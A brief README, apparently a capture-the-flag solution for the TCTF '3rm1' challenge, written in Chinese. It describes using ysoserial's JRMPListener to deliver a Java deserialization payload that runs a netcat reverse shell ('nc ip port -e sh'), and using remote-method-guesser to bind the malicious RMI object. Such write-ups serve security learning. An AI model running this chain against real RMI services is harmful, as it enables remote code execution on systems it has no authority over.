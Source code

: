 # TCTF_3rm1_solution
tctf 3rm1 solution

使用ysoserial编写exp打包，使用JRMPListener将序列化payload传过去。
java -cp  ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 4444 TCTF3rmiExp 'nc ip port -e sh'
使用 https://github.com/qtc-de/remote-method-guesser 绑定恶意对象。
访问恶意对象即可触发反序列化。

